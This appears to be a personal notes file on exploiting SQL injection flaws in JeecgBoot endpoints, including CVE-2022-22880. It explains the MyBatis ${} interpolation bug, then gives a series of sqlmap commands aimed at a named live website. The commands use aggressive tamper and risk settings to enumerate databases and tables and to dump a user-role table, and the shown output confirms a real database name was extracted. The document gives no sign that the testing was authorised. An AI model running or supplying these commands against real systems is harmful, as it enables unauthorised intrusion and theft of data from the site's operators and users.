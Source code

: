 # test inject sql

when the code review on the github, here have some open issue about the sql inject. following is the links:

- [CVE-2022-22880](https://github.com/jeecgboot/JeecgBoot/issues/3347)
- [sys/dict/loadtreedata](https://github.com/jeecgboot/JeecgBoot/issues/1887)

## CVE-2022-22880

`GET https://web.antgst.com/antgst/sys/user/queryUserByDepId?id=57197590443c44f083d42ae24ef26a2c&realname=`

the `realname` mapper is:

```xml
<select id="queryDepartUserList" resultType="org.jeecg.modules.system.entity.SysUser">
    select a.* from sys_user a
    join sys_user_depart b on b.user_id = a.id
    join sys_depart c on b.dep_id = c.id
    where a.del_flag = 0 and c.org_code like '${orgCode}%'
    <if test="realname!=null and realname!=''">
        and a.realname like '%${realname}%'
    </if>
</select>
```

The MyBatis query uses `${realname}` instead of `#{realname}`, `${}` does direct string interpolation without escaping.

### request

the normal request is

```json
{
    "success": true,
    "message": "操作成功！",
    "code": 0,
    "result": [
        {
            "id": "e888946e0213c9a4685bd94e7f1563ae",
            "username": "SS678",
            "realName": null,
            "avatar": null,
            "orgCode": null,
            "status": 1,
            "drTimeout": 0,
            "workNo": null,
            "post": null,
            "notes": null,
            "createBy": "ANT_July",
            "createTime": "2024-03-18 15:17:27",
            "updateBy": null,
            "updateTime": null,
            "activitiSync": null,
            "departId": "a16ca6032b3745f095b80c510aba4af5",
            "departName": "SS678",
            "accountType": 4
        }
    ],
    "timestamp": 1734502811142
}
```

### try exploit

use the sqlmap to test the sql inject

```bash
sqlmap -r queryUserByDepId.txt \
-p realname \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t trace.txt  \
--tamper=space2comment \
--privileges
```

## sendRecordList

```bash
sqlmap -r sendRecordList.txt \
-p field \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t sendRecordList.trace.txt  \
--tamper=space2comment \
--privileges
```

## getUserDepartList

```bash
sqlmap -r getUserDepartList.txt \
-p roleCode \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t trace.txt  \
--tamper=space2comment \
--privileges
```

## loadtreedata

sqlmap to exploit the `loadtreedata` api

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
-t trace.txt 
```

here have the sql check on the websit, the response is:

```json
{"success":false,"message":"服务器开小差了，请尽快联系服务人员","code":500,"result":null,"timestamp":1734507668132}
```

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--batch \
--threads=10 \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t trace.txt  \
--tamper=space2comment \
--privileges
```

when we get the sqlmap result:

```log
[15:49:41] [INFO] retrieved: intl_sys_db             
available databases [1]:
[*] intl_sys_db

[15:49:41] [INFO] fetched data logged to text files under '/home/xjh/.local/share/sqlmap/output/web.antgst.com'
```

the `intl_sys_db` is the database name. then we can use the sqlmap to find other database name.

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
-D jeecg-boot \
--tables \
--threads=10 \
--batch \
--hex
```

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
-D jeecg-boot \
-T sys_user_role \
--dump \
--start=1 \
--stop=100 \
--batch \
--tamper=space2comment,between \
--threads=10
```
